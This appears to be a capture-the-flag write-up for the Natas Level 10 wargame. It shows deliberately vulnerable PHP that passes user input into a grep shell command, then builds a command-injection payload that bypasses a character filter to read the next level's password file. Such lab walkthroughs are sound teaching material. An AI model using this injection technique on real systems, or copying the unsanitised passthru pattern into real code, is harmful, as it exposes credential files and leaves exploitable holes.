 # Level 10
This level builds on the previous level by intoducing some additional constraints.

## Quest 
We are presented with a webpage containing msg "_For security reasons, we now filter on certain characters_".

![Level 10 Image](./images/Level10.png)

From the source code we can see some additional checks have been introduced, Lets comment the code:
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) { // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];             // If its there, assign it to var $key
}

if($key != "") {                            // If key is not empty
    if(preg_match('/[;|&]/',$key)) {        // and If user input contains ;,|,&
        print "Input contains an illegal character!";  // Print the message
    } else {
        passthru("grep -i $key dictionary.txt");  // Else, run the command with user input
    }
}
?>
```
<br/><br/>

## Solution
From the source code, we can see that application now doesn't accept characters `;`, `|` and `&`. Essentially all characters that can terminate a command.

Now to construct our payload, we do some tests in our local linux terminal.
```shell
# I have a simple text file 'test'
$ cat test
This is a random file
We love random things, not pseudo random ones.

# Another way to view the file using 'grep'
$ grep -i "" test
This is a random file
We love random things, not pseudo random ones.

$ cat \                  # There is no space after \
> test
This is a random file
We love random things, not pseudo random ones.

$ cat \                  # If we put a space after \  , command terminates
cat: ' ': No such file or directory
```
<span id="green">Takeaway:</span><br/>
    1. We can use `grep` to view the contents of a file<br/>
    2. `\` is used in multiline linux commands to split command to next line when command is too long<br/>
    3. But if we put a space after `\`, then it terminates the command<br/>

So, Our payload becomes <span id="green">-></span> `"" /etc/natas_webpass/natas11 \`
<br/>Note that we don't need to add extra space at the end as its added for us when `grep` command is run.<br/><br/>

Now, we put our payload in the form and it reveals the password for next Level

![Level10 Solution](./images/Level10_solution.png)

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)

